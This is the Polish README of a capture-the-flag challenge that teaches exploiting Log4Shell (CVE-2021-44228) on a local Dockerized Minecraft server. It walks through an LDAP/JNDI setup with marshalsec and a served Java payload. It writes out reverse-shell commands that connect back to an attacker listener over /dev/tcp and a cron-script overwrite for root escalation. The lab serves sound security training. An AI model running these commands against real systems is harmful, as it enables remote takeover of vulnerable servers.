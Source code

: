 # minecraft-ctf

## Wprowadzenie
Witamy w `minecraft-ctf`, wyjątkowym wyzwaniu CTF stworzonym specjalnie dla Was! Twoim zadaniem będzie zdobycie flagi, wykorzystując podatność Log4j oraz kilka innych narzędzi, a to wszystko co najlepsze, z użyciem gry, którą chyba każdy zna! Przygotuj się na fascynujące wyzwanie! Owocnego hackowania i udanej zabawy!

## Zasady CTF

Uruchomiony kontener obrazu **kwasnyy/mcctf:mcexpl** jest atakowanym serwerem. Założenie jest, że nie masz do niego dostępu, nie masz o nim wiedzy (poza tym co piszemy tutaj). Więc zdobywanie wiedzy poprzez sprawdzanie `Dockerfile` albo włamywanie się poprzez `docker exec -it ID bash` jest bez sensu i nie jest rozwiązaniem CTF'a.
Pozostałe uruchamiane kontenery są już twoją własnością, możesz robić z nimi co chcesz.


## Wymagania
- Docker,
- Java (do uruchomienia clienta Minecrafta - jeśli jej nie masz, pobierz i zainstaluj),
- [Minecraft Launcher](/SKlauncher-Universal-All-Versions.jar) albo jakikolwiek inny launcher,
- NetCat (użyj WSL lub zainstaluj na Windowsie),

## HARD - Ogólny zarys postępowania
1. Uruchom server docker z serverem Minecraft:
   - `docker run -p 25565:25565 -it kwasnyy/mcctf:mcexpl`
2. Wykorzystaj podatność CVE-2021-44228 do uzyskania reverse shell
   - napoczęty `marshalsec/Dockerfile` może ci ułatwić,
   - tak samo masz `codehttp/` gdzie manipulować trzeba tylko linijką gdzie ustawia zmienną `cmd`,
3. Interesujący cię plik jest umieszczony gdzieś na systemie,
4. Rozejrzyj się po plikach w folderze `/server`,
5. Po odczytaniu tajnego kodu zapraszamy do wspólnej gry :)


## EASY - Krok po kroku

### 0. Uruchamianie SKLauncher
   1. Otwórz SKLauncher, który również znajduje się w repozytorium.
   2. Wybierz tryb offline.
   3. Kliknij '+' obok "Installations Manager".
   4. Wybierz release 1.8.8, zapisz i naciśnij PLAY.

### 1. Uruchomienie serwera Minecraft
   1. **Uruchom Minecraft'a:**
      - `docker run -p 25565:25565 -it kwasnyy/mcctf:mcexpl`
      - po zbudowaniu kontenera i uruchomieniu, w trybie Multiplayer w grze, dodaj serwer pod adresem 127.0.0.1.

### 2. Wykorzystaj podatnośc CVE-2021-44228 do uzyskania reverse shell


<details>
<summary><b>Informacje o kontenerach</b></summary>
Dwa spośród trzech odpalonych przez Ciebie kontenerów są "Twoje" - jako hacker je kontrolujesz. Nienależącym do Ciebie jest ten hostujący serwer Minecraft'a, do którego chcesz uzyskać dostęp. Pozostałe kontenery pomogą Ci w tej misji.
</details>

   1. **Uruchom serwer LDAP:**
      - `cd marshalsec`
      - znając schemat działania *JNDI* ustaw w Dockerfile adres IP i PORT gdzie będzie wystawiony kod do wykonania na serwerze Minecrafta,
      - `docker build . -t marshal`
      - `docker run -p 1389:1389 -ti marshal`

   2. **Przygotuj kod do połączenia się z reverse shell i wystaw go na serwerze http:**
      - przygotuj sobie `netcat` na hoście (swoim komputerze), może na wsl, a może zainstaluj na Windowsie,
      - potem uruchamiasz nasłuchiwanie komendą `nc -l [port]`,
      - cd `codehttp/`
      - ten kontener służy do serwowania statycznych plików po http,
      - edytuj linijkę w pliku `Log4jRCE.java`,
         1. nie uruchamiaj komendy bezpośrednio, lecz stwórz plik, a potem uruchom go bashem,
         2. dodaj " &" na końcu linijki w pliku gdzie uruchamiasz netcata, dzięki temu zostanie on uruchomiony w tle, a server Minecrafta nie scrashuje,
         3. podpowiedzi:
            1. `bash -c "..."`,
            2. `echo "komenda > plik.sh" ; bash plik.sh`,
            3. `nohup`,
            4. `bash -i >/dev/tcp/[ip hosta]/[port nasluchujacy] 2>&1 0<&1`,
            5. ` &`,
         4. 
            <details>
            <summary><b> Pokaż komendę:</b></summary>

            ```java
            String[] cmd = {"bash", "-c", "echo 'nohup bash -i >/dev/tcp/[ip hosta]/[port nasluchujacy] 2>&1 0<&1 &' > /server/script.sh; bash /server/script.sh"};
            ```

            </details>
      - podczas budowania obrazu zostanie ten plik do niego skopiowany, a następnie skompilowany,
      - a po uruchomieniu kontenera, będzie serwowany plik "Log4jRCE.class" na porcie *:8888* tego kontenera,
      - zbuduj obraz: `docker build . -t codehttp`,
      - uruchom kontener: `docker run -p 8888:8888 -ti codehttp`,

### 3. Interesujący cię plik jest umieszczony gdzieś na systemie:
   wyszukaj plik komendą `find / -name "flag.txt"`,

### 4. Rozejrzyj się po plikach w folderze `/server`:
   1. interesuje cię plik `cronjob.sh`,
   2. zobacz na zawartość - wykonuje on backup świata minecrafta,
   3. `ls -la /server/bqp` - zobacz kto jest właścicielem folderów - ten sam user ma w swoim cronie zamontowane uruchamianie tego skryptu,
   4. podmień zawartość skryptu `cronjob.sh` na taką, która wykonana z uprawnieniami roota pozwoli na odczytanie pliku,
   5. <details>
      <summary><b>Pokaż komendę:</b></summary>
      `echo "chmod 666 /usr/lib/jvm/jre1.8.0_181/lib/desktop/icons/LowContrast/16x16/mimetypes/flag.txt" > /server/cronjob.sh`
      </details>

### 5. Po odczytaniu flagi zapraszamy do wspólnej gry :)
   0. postępuj zgodnie z instrukcjami klikając przyciski,
   1. wprowadź flagę do skrzynki,
   2. odczekaj chwilkę,
   3. Zapraszamy do wspólnej gry! <3


## Twoje zadanie
Wykorzystaj podatność starej wersji Log4j i inne narzędzia do zdobycia ukrytej flagi. Kod hostowany na httpcode musi być przygotowany i skompilowany. Znajdź i zmodyfikuj bashowy skrypt wykonywany z uprawnieniami roota. Jak uzyskasz uprawnienia roota, możesz odnaleźć w plikach kod, który następnie wpiszesz w serwerze Minecrafta. Jeśli kod okaże się poprawny - gratulacje hackerze/ko ;)

## Przydatne informacje

### Uzyskanie Reverse Shell
```sh
# Nasłuchuj na porcie `5000` na swoim komputerze:
nc -l 5000

# Na komputerze ofiary:
bash -i >& /dev/tcp/[ip kompa na którym jest `nc` włączony]/5000 0>&1

# przykład:
bash -i >& /dev/tcp/172.17.0.1/5000 0>&1
```

### Budowanie obrazu:
```sh
# Stworzenie obrazu kontenera:
docker build . -t <nazwa-obrazu>

# Uruchomienie obrazu z przekierowaniem portów:
docker run -p 25565:25565 -ti <nazwa-obrazu>
```


## Przydatne komendy 

### Docker
```sh
docker build . -t <jakas nazwa>
docker run -p <host>:<docker> -ti <jakas nazwa>
docker ps
docker ps -a
docker kill <id>     # nie trzeba wpisywać całego id, wystarczy jednoznacznie identyfikujący początek
docker remove <id>   # tu też, generalnie tak działa id
docker image prune   # wywal nieuruchomione image
docker container prune  # wywal zatrzymane kontenery (kontener po CTRL+C zostaje zatrzymany, a nie usunięty)
```

<br>

## Credits
- [Minecraft-Log4j-Exploit](https://github.com/Justin-Garey/Minecraft-Log4j-Exploit) od Justina Gareya
- [marshalsec](https://github.com/mbechler/marshalsec) od Marcina Bechlera
- [Smallest Docker Image Static Website](https://lipanski.com/posts/smallest-docker-image-static-website) od Vladimira Lipanskiego
- [Mapa Minecraft](https://www.minecraftxl.com/deep-sea-map/) od BlockWorks


